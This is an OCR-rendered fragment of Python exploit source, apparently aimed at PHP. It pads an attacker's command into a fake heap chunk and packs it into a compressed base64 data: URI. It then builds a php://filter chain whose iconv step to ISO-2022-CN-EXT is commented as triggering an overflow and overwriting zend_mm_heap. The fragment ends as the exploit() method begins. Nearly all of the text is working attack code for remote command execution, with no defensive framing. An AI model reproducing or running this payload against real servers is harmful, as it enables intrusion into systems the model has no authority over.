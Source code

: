 ~~~ python
        assert (
            len(COMMAND) <= step4_use_custom_heap_size
        ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
        COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

        step4_use_custom_heap = COMMAND
        step4_use_custom_heap = qpe(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

        pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * self.pad
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
        )

        resource = compress(compress(pages))
        resource = b64(resource) #b64(pages)
        resource = f"data:text/plain;base64,{resource.decode()}"

        filters = [
            # Create buckets
            "zlib.inflate",
            "zlib.inflate",
           
            # Step 0: Setup heap
            "dechunk",
            "convert.iconv.L1.L1",
           
            # Step 1: Reverse FL order
            "dechunk",
            "convert.iconv.L1.L1",
           
            # Step 2: Put fake pointer and make FL order back to normal
            "dechunk",
            "convert.iconv.L1.L1",
           
            # Step 3: Trigger overflow
            "dechunk",
            "convert.iconv.UTF-8.ISO-2022-CN-EXT",
           
            # Step 4: Allocate at arbitrary address and change zend_mm_heap
            "convert.quoted-printable-decode",
            "convert.iconv.L1.L1",
        ]
        filters = "|".join(filters)
        path = f"php://filter/read={filters}/resource={resource}"

        return path

    @inform("Triggering...")
    def exploit(self) -> None:
        path = self.build_exploit_path()
        start = time.time()
~~~